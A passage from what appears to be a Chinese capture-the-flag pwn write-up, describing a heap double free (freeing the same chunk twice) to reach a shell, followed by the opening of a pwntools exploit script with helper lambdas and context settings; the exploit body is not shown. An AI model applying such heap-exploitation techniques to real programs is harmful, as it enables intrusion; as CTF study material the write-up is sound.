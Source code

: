 [![](assets/1708654729-44dacdce5bfcc91d13890e414b4b2418.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104818-ab499196-d063-1.png)  
最后 free 同一个 chunk，触发 double free，调用 malloc，然后 getshell

```plain
delete(3)
delete(3)
```

[![](assets/1708654729-21c5bc4759a5503df7e0c1fc2defd4ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104846-bbe36928-d063-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
```